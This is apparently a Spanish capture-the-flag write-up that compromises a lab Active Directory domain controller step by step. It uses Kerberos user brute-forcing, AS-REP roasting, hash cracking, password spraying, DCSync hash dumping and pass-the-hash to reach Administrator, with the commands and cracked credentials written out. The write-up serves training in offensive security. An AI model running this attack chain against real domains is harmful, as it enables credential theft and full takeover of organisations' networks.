

Comenzamos enumerando los puertos abiertos de la máquina víctima con ``nmap``:

``sudo nmap 10.10.10.29 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Por los puertos abiertos pinta bastante a un DomainController. De todas formas, vamos a volver a pasar otro escaneo de ``nmap`` a estos puertos abiertos para que nos diga con exactitud, y no a través de ``well-known ports``, qué servicios, tecnologías y versiones están corriendo.

``nmap 10.10.10.29 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49673,49676,49677,49680,49685,49690,49697,49711 -oN target``





Ya podemos ver cositas. Por ejemplo, vemos: ``Domain: control.nyx``

Podemos confirmarlo con:

``netexec smb 10.10.10.29 ``



Lo añadimos al ``/etc/hosts``:


Dado que no tenemos ningún usuario del dominio, es lo primero que tenemos que intentar sacar.

Se intenta enumerar usuarios a través de null sesion + guest vía RPC, SMB, LDAP... pero ninguna tiene éxito. Por lo que es el momento de utilizar ``kerbrute`` y hacer fuerza bruta basada en diccionario.

Se comienza utilizando un diccionario muy típico de seclists: ``xato-net-10-million-usernames.txt``. Sin éxito.

Se continua utilizando otro diccionario:``A-Z.Surnames``, pero esta vez con éxito:

``kerbrute userenum --dc 10.10.10.29 -d control.nyx ~/Pentest/Tools/kerberos_enum_userlists/A-Z.Surnames.txt ``



Tenemos un usuario válido a nivel de dominio: ``b.lewis``. Nos lo guardamos en ``users.txt``.

Vale, tenemos un usuario válido a nivel de dominio. Aunque no conozcamos su contraseña, es un buen comienzo. Sólo con conocer uno o más usuarios válidos de dominio podemos comprobar si está setteada la opción ``Dont-require-pre-auth`` (no viene de forma default), a través de la técnica ``as-rep roasting attack``. De ser así, podremos obtener su hash, crackearlo de forma offline y obtener la contraseña en texto claro:

``impacket-GetNPUsers -no-pass -usersfile users.txt control.nyx/ -output hashes.asreproast``



Bingo. Lo tenemos en ``hashes.asreproast``.

Para pasárselo a la herramienta ``hashcat`` y poder crackearlo, necesitamos conocer el código interno que tiene dicha herramienta para este tipo de hashes:

``hashcat --help | grep -i "kerberos"``



Código 18200. 

Una vez sabemos el código interno de hashcat, podemos intentar romperlo con un diccionario. Se utiliza el clásico ``rockyou``.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force``


Ojo. Credenciales conseguidas: ``b.lewis``:``101Music``

Comprobamos que, efectivamente, son credenciales válidas con ``netexec``:

``netexec smb 10.10.10.29 -u 'b.lewis' -p '101Music'``



Estupendo, podemos empezar a enumerar.

Por ejemplo, podemos intentar enumerar el resto de los usuarios del dominio a través de SMB (``--rid-brute``) o RPC (``enumdomusers``):

``netexec smb 10.10.10.29 -u 'b.lewis' -p '101Music' --rid-brute > ridbrute``



Con el objetivo del limpiar un poco el output, una opción muy interesante es hacer uso de la flag ``--users`` con ``netexec``.

``netexec smb 10.10.10.29 -u 'b.lewis' -p '101Music' --users ``



Que, a su vez, esta opción nos dice qué cuentas de usuarios están habilitadas y cuáles no, muy parecido a ``querydispinfo`` desde RPC:



Sabemos que ``j.levy`` está habilitada. Si queremos recabar un poco más de información de este usuario, podemos hacer uso de ``ldapdomaindump``, ya que tenemos credenciales válidas a nivel de dominio. 

``ldapdomaindump -u 'control.nyx\b.lewis' -p '101Music' 10.10.10.29``

Para poder visualizar cómodamente la data desde el navegador, abrimos servidor web con python:

``python3 -m http.server 80``

Y buscamos el fichero: ``domain_users.html``



El usuario ``j.levy`` forma parte del grupo ``Remote Management Users``, lo que nos permitiría conectarnos por winRM. Esto lo convierte en un usuario objetivo al que intentar pivotar.

Dado que no hemos encontrado nada interesante en relación a este usuario que pueda servir como su contraseña, se decide lanzar fuerza bruta, nuevamente, con el diccionario ``rockyou``:

``netexec smb 10.10.10.29 -u 'j.levy' -p /usr/share/wordlists/rockyou.txt --ignore-pwd-decoding | grep -v '[-]'``



Nos encuentra la contraseña, por lo que tenemos nuevas credenciales: ``j.levy`` : ``Password1``

Confirmamos que son credenciales válidas a nivel de dominio:



Y validamos que, efectivamente, este usuario forma parte del grupo ``Remote Management users`` porque nos da el positivo (``Pwn3d!``) si utilizamos estas credenciales contra winRM:



Nos conectamos vía winRM con ``j.levy`` a la máquina víctima:

``evil-winrm -i control.nyx -u 'j.levy' -p 'Password1'``



Estamos dentro de la máquina víctima, por lo que podemos recoger la flag de usuario en ``C:\Users\j.levy\Desktop\user.txt``:



Una vez hemos recogido la flag de user, vamos a compartir SharpHound para enumerar un poquito más a nivel de dominio y ver las relaciones que pueda tener este usuario con otros usuarios o grupos.

Creamos carpeta ``C:\temp`` y subimos ``SharpHound.exe``, lo ejecutamos y nos descargamos en nuestra máquina atacante el .zip generado.

```
mkdir C:\temp
cd C:\temp
upload ../../../../../../../../../../../usr/share/sharphound/SharpHound.exe
.\SharpHound.exe -c All
download 20251203131903_BloodHound.zip
```

Una vez lo tenemos en nuestra máquina atacante, lo subimos a bloodhound.

Buscamos a nuestro usuario ``j.levy``, lo marcamos como owned y miramos qué cositas interesantes pueda tener:



Ojo. Tenemos ``AllExtendedRights`` sobre el dominio. Algo muy peligroso, pero a la vez muy jugoso para nosotros como atacantes:



Podemos hacer uso de ``impacket-secretsdump`` para hacer volcado de hashes del dominio:

``impacket-secretsdump control.nyx/'j.levy':'Password1'@'10.10.10.29'``


Una vez tenemos el hash NTLM del usuario Administrator, podemos hacer uso del mismo para hacer la técnica ``Pass The Hash`` y conectarnos vía winrm/wmiexec/psexec:

``impacket-psexec Administrator@10.10.10.29 -hashes ':48b20d4f3ea31b7234c92b71c90fbff7'``



Bingo.

Recogemos la flag de Administrator en ``C:\Users\Administrator\Desktop\root.txt``:


